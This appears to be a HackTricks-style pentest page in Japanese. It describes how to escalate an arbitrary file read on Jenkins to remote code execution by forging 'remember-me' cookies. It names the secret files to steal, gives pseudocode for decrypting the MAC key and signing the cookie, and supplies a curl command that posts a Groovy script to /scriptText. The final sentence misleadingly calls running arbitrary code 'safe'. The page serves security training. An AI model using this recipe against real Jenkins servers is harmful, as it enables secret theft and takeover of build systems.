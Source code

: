 # Jenkins Arbitrary File Read to RCE via "Remember Me"

{{#include ../../banners/hacktricks-training.md}}

このブログ投稿では、Jenkinsのローカルファイルインクルージョン脆弱性をRCEに変換する素晴らしい方法を見つけることができます: [https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/](https://blog.securelayer7.net/spring-cloud-skipper-vulnerability/)

これは、任意のクッキーを作成することがRCEを取得するために悪用される投稿の部分のAIによって作成された要約です。自分自身の要約を作成する時間ができるまでの間です。

### Attack Prerequisites

- **Feature Requirement:** "Remember me"が有効である必要があります（デフォルト設定）。
- **Access Levels:** 攻撃者はOverall/Read権限が必要です。
- **Secret Access:** 重要なファイルからバイナリおよびテキストコンテンツを読み取る能力。

### Detailed Exploitation Process

#### Step 1: Data Collection

**User Information Retrieval**

- 各ユーザーのために`$JENKINS_HOME/users/*.xml`からユーザー設定と秘密を取得します:
- **Username**
- **User seed**
- **Timestamp**
- **Password hash**

**Secret Key Extraction**

- クッキーの署名に使用される暗号鍵を抽出します:
- **Secret Key:** `$JENKINS_HOME/secret.key`
- **Master Key:** `$JENKINS_HOME/secrets/master.key`
- **MAC Key File:** `$JENKINS_HOME/secrets/org.springframework.security.web.authentication.rememberme.TokenBasedRememberMeServices.mac`

#### Step 2: Cookie Forging

**Token Preparation**

- **トークンの有効期限を計算:**

```javascript
tokenExpiryTime = currentServerTimeInMillis() + 3600000 // 現在の時間に1時間を追加
```

- **トークンのためのデータを連結:**

```javascript
token = username + ":" + tokenExpiryTime + ":" + userSeed + ":" + secretKey
```

**MAC Key Decryption**

- **MACキーのファイルを復号化:**

```javascript
key = toAes128Key(masterKey)  // マスターキーをAES128キー形式に変換
decrypted = AES.decrypt(macFile, key)  // .macファイルを復号化
if not decrypted.hasSuffix("::::MAGIC::::")
return ERROR;
macKey = decrypted.withoutSuffix("::::MAGIC::::")
```

**Signature Computation**

- **HMAC SHA256を計算:**

```javascript
mac = HmacSHA256(token, macKey) // トークンとMACキーを使用してHMACを計算
tokenSignature = bytesToHexString(mac) // MACを16進数文字列に変換
```

**Cookie Encoding**

- **最終的なクッキーを生成:**

```javascript
cookie = base64.encode(
username + ":" + tokenExpiryTime + ":" + tokenSignature
) // クッキーのデータをBase64エンコード
```

#### Step 3: Code Execution

**Session Authentication**

- **CSRFおよびセッショントークンを取得:**
- `/crumbIssuer/api/json`にリクエストを送信して`Jenkins-Crumb`を取得します。
- 応答から`JSESSIONID`をキャプチャし、remember-meクッキーと一緒に使用します。

**Command Execution Request**

- **Groovyスクリプトを使用してPOSTリクエストを送信:**

```bash
curl -X POST "$JENKINS_URL/scriptText" \
--cookie "remember-me=$REMEMBER_ME_COOKIE; JSESSIONID...=$JSESSIONID" \
--header "Jenkins-Crumb: $CRUMB" \
--header "Content-Type: application/x-www-form-urlencoded" \
--data-urlencode "script=$SCRIPT"
```

- Groovyスクリプトは、システムレベルのコマンドやJenkins環境内の他の操作を実行するために使用できます。

提供されたcurlコマンドの例は、必要なヘッダーとクッキーを使用してJenkinsにリクエストを送信し、任意のコードを安全に実行する方法を示しています。

{{#include ../../banners/hacktricks-training.md}}
